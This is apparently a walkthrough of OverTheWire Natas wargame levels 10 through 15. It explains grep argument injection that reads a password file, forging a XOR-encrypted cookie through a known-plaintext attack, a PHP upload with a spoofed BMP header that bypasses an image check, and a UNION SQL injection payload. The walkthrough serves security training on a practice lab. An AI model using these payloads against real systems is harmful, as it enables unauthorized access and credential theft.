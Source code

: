 ## Level 10 - 11
This is pretty smart. Since filters have been added to prevent exploitation of linux scripting operators, we're instead going to exploit the use of the grep command. Since grep can accept multiple files, we need to guess a character that exists in the password and ignore all the hits it finds in the dictionary document. Fortunately, since we know the passwords tend to be a long alphanumeric string, we can try a bunch of numbers to get rid of most dictionary entries.

`8 /etc/natas_webpass/natas11`

## Level 11 - 12
Let's start by inspecting the code in our own editor. Line 67 clearly highlights our goal: we want the "showpassword" key of the cookie data to have value "yes".

Very imporant to note that the default data on line 13 is set as a cookie on line 55. This keeps the background color persistent between sessions.

This key-value pair for "showpassword" is only set at line 35, which is subject to a bunch of conditional statements. We can make the following observations:
- we have to input a valid regex-matching bgcolor in the form to trigger the code (line 34).
- Our cookie "data" key has to be manipulated through the encoding to have the properties we desire.

Now for the big problem: we need to crack the key on the XOR encoding. However, we can execute a known plaintext attack here because we can access our cookies to know what the cipher of our default data is.

The cookie has "data": "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D". From the function in line 43, this is the default data > json_encode > xor_encrypt > base64_encoded. So to use it to reverse engineer the XOR key, we're going to have to base64_decode it first.

The key will be repeating due to the modulo used in the XOR encoding, so using the smallest repeating sequence, we can now generate a fake cookie base64 encoded data with field "showpassword": "yes".

## Level 12 - 13
We are immediately greeted with a file upload. Let's do a bit of testing! I found that the form does not check for the extension of the file being uploaded, so this suggests a file upload vulnerability where I can upload a script for the server the execute instead of a picture. Let's start by breaking down the code:

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
```
genRandomString() generates a 10-character random string from lowercase letters and numbers 0-9.

```php
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```

makeRandomPath($dir, $ext) creates a file path of the concatenated $dir, a genRandomString and a file $ext.
It keeps trying random strings until it finds one that is available. 


```php
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
```
This wrapper function creates the extension that we append in `makeRandomPath`. We find more information on the constant `PATHINFO_EXTENSION` [here](https://www.php.net/manual/en/fileinfo.constants.php). If we observe the input form at the bottom, we see that no matter what file we submit, a .jpg will be appended to the end. Therefore this constant will probably evaluate to a .jpg or .jpeg string literal, since it is based on the MIME type of the file we upload.

Finally, we move on to observing the script body: 
```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
// Do nothing, end of PHP code.
?> 

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```

So we make a `$target_path` in the /upload directory with a generated 10-digit filename and the coerced .jpg extension. This also only succeeds if our file is successfully uploaded with <1kB size. 

Now let's define our objectives:
- We want to upload a script smaller than 1kB in size to fetch us the password of the password file located in `/etc/natas_webpass/natas13`.
- We need to find a way of working around the .jpg extension, so that the server will execute it as a script.

Let's start by making a basic script.
```php
<?php
echo 
?>
```

Let's work on getting a basic hello world script to run on the server. We observed that the `.jpg` extension is created by the `pathinfo` function, so in fact, we can get past it as long as we get the form submission to have the extension we desire. Maybe we can do this by intercepting the http request on its way to the server. Let's start up Burp.

We see that the form submits the file using a POST request in the body. Thankfully, since this isn't HTTPS, we can tamper freely. You'll see a random generated name for the file with the .jpg suffix. Change that to .php, and the upload should succeed, allowing us to run the file with the nice link they provided us with, giving us the password.

## Level 13 - 14
This looks like the same challenge as before, but as they hint, we now expect some kind of guard to check that our file is an image. Let's inspect the code. We see that this is implemented with a single additional conditional clause, and nothing more.

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
```

The [documentation](https://www.php.net/manual/en/function.exif-imagetype.php) for the `exif_imagetype()` function reveals that it returns some enumerated integer constants to represent the type of image it detected. We also see that it works by reading the first bytes of an image and checking its signature. So, we need some way to get this function to return a non-falsy value.

We could spoof some image types by adding a suitable magic number to the start of our PHP script source, but the easiest one is to notice that `exif_imagetype()` accepts BMP (bitmap) images, which all begin with the simple ASCII characters "BMP". This also makes the password output more readable as we know everything output after the BMP characters are our password. Therefore our script looks like this:
```php
BMP

<?php
echo file_get_contents("/etc/natas_webpass/natas14")
?>
```

Just following the same steps as we did before (spoofing the form-submitted file extension) will get us our password again.

## Level 14 - 15
Looks like a straightforward SQL injection! Looking at the code, we see a mysql query as expected. We first notice that all we have to do to get our password is execute a query that returns any entry:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) {
    echo "Successful login! The password for natas15 is <censored><br>";
}
```

It's useful to note that the form is submitted by POST, so we can't see the query string. We note that there is a little bit of code that we can exploit to fine-tune our query:
```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

So, if we do our own GET request instead of the POST submitted by the form and add the `debug` parameter, we can see exactly which statement of ours gets executed. Finally, let's look at the query:
```sql
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
We want the query to simply return a tuple. We can escape the password with a quote and add a simple UNION statement to get what we want. Note that with the additional quote that gets added on the end, we want to add a trivial WHERE clause so that the query doesn't break.

Either do a GET request:

`http://natas14.natas.labs.overthewire.org/?debug&username=1&password=1%22+UNION+SELECT+*+from+users+where+%221%22+=+%221`

Or simply use this as the password in the form:

`a" union select * from users where "1" = "1`
